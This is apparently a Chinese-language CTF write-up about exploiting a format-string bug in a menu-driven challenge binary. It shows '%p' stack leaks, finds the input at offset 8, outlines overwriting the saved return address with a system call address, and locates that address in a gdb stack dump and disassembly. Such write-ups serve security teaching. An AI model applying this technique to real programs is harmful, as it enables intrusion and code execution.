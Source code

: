 ```shell
>error options
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>error options
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>error options
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>1
Welc0me to sangebaimao!
aaaaaaaa
0xa150100x7fee0ef9b7800x90x7fee0f1aa7000x90x7ffcd663d0300x400d740x61616161616161@1.Sh0w Account Infomation!           aaaa 在第8位
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>

可以看到  aaaaa 的 用户名 在泄露栈  的 格式化字符串的偏移第8位
且，打印时大打的是名字。

```

利用格式化漏洞字符串进行返回地址覆盖，进行利用的方法。

- 确定偏移
- 获取函数的 rbp 与返回地址
- 根据相对偏移获取存储返回地址的地址
- 将执行 system 函数调用的地址写入到存储返回地址的地址。

**确定偏移**

为8

**返回地址查找：可以根据栈的当前数据状态（获取函数的 rbp 与返回地址）**

看出，0x00007fffffffddf0 为当前函数  rbp    0x0000000000400d74 为本函数返回值

```
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffddb0│+0x0000: 0x00007fffffffddf0  →  0x00007fffffffdea0  →  0x0000000000400eb0  →   push r15	 ← $rsp, $rbp  《========rsp rbp当前位置
0x00007fffffffddb8│+0x0008: 0x0000000000400d74  →   add rsp, 0x30《--------为本函数返回地址
0x00007fffffffddc0│+0x0010: "AAAAAAAA"
0x00007fffffffddc8│+0x0018: 0x000000000000000a
0x00007fffffffddd0│+0x0020: 0x7025702500000000
0x00007fffffffddd8│+0x0028: "%p%p%p%p%p%p%p%pM\r@"
0x00007fffffffdde0│+0x0030: "%p%p%p%pM\r@"
0x00007fffffffdde8│+0x0038: 0x0000000000400d4d  →   cmp eax, 0x2


text:0000000000400D6C                 push    [rbp+s]
.text:0000000000400D6F                 call    sub_400B07     《--- 调用函数
.text:0000000000400D74                 add     rsp, 30h        《====返回地址
.text:0000000000400D78                 jmp     short loc_400DC2     
```
